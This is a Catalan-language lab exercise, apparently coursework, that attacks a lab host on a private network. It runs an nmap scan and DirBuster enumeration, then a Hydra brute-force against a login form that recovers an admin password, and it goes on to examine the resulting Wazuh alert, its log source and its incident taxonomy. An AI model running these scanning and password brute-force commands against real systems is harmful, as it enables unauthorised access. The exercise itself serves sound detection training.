




Màquines:

● Víctima: 192.168.1.41

  Aquesta màquina té el Wazuh agent enviant alertes al manager.

● Wazuh manager: 192.168.1.80

Atac:

Investiga quins ports té oberts la víctima:

```
nmap -sV -sT -O -A -p- 192.168.1.41
```

```
└──╼ $ping 192.168.1.41
PING 192.168.1.41 (192.168.1.41) 56(84) bytes of data.
64 bytes from 192.168.1.41: icmp_seq=1 ttl=64 time=4.92 ms
64 bytes from 192.168.1.41: icmp_seq=2 ttl=64 time=4.63 ms
64 bytes from 192.168.1.41: icmp_seq=3 ttl=64 time=5.00 ms
64 bytes from 192.168.1.41: icmp_seq=4 ttl=64 time=6.91 ms
64 bytes from 192.168.1.41: icmp_seq=5 ttl=64 time=5.74 ms
64 bytes from 192.168.1.41: icmp_seq=6 ttl=64 time=4.77 ms
64 bytes from 192.168.1.41: icmp_seq=7 ttl=64 time=5.55 ms
```


OWASP Dirbuster 1.0-RC1 - Web Application Brute Forcing






http://192.168.1.41/login.php



Request headers:

```
Host: 192.168.1.41
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://192.168.1.41
DNT: 1
Connection: keep-alive
Referer: http://192.168.1.41/
Upgrade-Insecure-Requests: 1
```

Request body:

```
username=toni&password=toni
```

```
└──╼ $hydra -l admin -P /usr/share/wordlists/dirb/others/best1050.txt 192.168.1.41 http-post-form "/login.php:username=^USER^&password=^PASS^:invalid"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-22 17:26:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1049 login tries (l:1/p:1049), ~66 tries per task
[DATA] attacking http-post-form://192.168.1.41:80/login.php:username=^USER^&password=^PASS^:invalid
[80][http-post-form] host: 192.168.1.41   login: admin   password: happy
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-22 17:27:06
```

```
login: admin   
password: happy
```


```
└──╼ $ifconfig
wlp14s0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.224  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::e5fc:8a3:a361:84b9  prefixlen 64  scopeid 0x20<link>
        ether 2c:d0:5a:11:92:c2  txqueuelen 1000  (Ethernet)
        RX packets 1149072  bytes 639208913 (609.5 MiB)
        RX errors 0  dropped 108  overruns 0  frame 0
        TX packets 1003188  bytes 265200301 (252.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

Aquest atac genera una alerta al Wazuh manager per cada intent fallit.

● Mostra aquesta alerta amb una captura.




```
{
  "agent": {
    "ip": "192.168.1.41",
    "name": "dc-4",
    "id": "003"
  },
  "data": {
    "protocol": "HEAD",
    "srcip": "192.168.1.224",
    "id": "404",
    "url": "//images/alumni.php"
  },
  "rule": {
    "firedtimes": 46458,
    "mail": false,
    "level": 10,
    "pci_dss": [
      "6.5",
      "11.4"
    ],
    "tsc": [
      "CC6.6",
      "CC7.1",
      "CC8.1",
      "CC6.1",
      "CC6.8",
      "CC7.2",
      "CC7.3"
    ],
    "description": "Multiple web server 400 error codes from same source ip.",
    "groups": [
      "web",
      "accesslog",
      "web_scan",
      "recon"
    ],
    "id": "31151",
    "nist_800_53": [
      "SA.11",
      "SI.4"
    ],
    "frequency": 14,
    "gdpr": [
      "IV_35.7.d"
    ]
  },
  "full_log": "192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //images/alumni.php HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"",
  "id": "1647966658.533929400",
  "timestamp": "2022-03-22T16:30:58.779+0000",
  "previous_output": "192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD /css//pepys.php HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //////images/209651/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/collapse_of_ussr/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/bdeath/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/commandingheights/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/minitextlo/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/inside_money/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/fleas/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/archer/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD ///images///5701.php HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //images//////seven_wonders/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"",
  "manager": {
    "name": "wazuh"
  },
  "decoder": {
    "name": "web-accesslog"
  },
  "input": {
    "type": "log"
  },
  "@timestamp": "2022-03-22T16:30:58.779Z",
  "location": "/var/log/nginx/access.log",
  "_id": "zm13sn8BzZwxFN02oRTG"
}
```

● Anomena a quina taxonomia pertany aquest incident i fes-ne una breu explicació .
(https://github.com/enisaeu/Reference-Security-Incident-Taxonomy-Task-Force/blob/master/working_copy/humanv1.md)

Intrusion Attempts, Login Attempts
Diversos intents d'inici de sessió de força bruta (incloent endevinar o trencar contrasenyes). Aquest COI es refereix a un recurs, que s'ha observat per realitzar atacs de força bruta sobre un protocol d'aplicació donat.

● A quin fitxer log de la màquina víctima s’ha enregistrat l’alerta enviada al Wazuh?

```
/var/log/nginx/access.log
```

● Quin és el missatge de l’alerta que ens permet identificar l’incident?

```
192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] "HEAD //images/alumni.php HTTP/1.1" 404 0 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)" "-"
```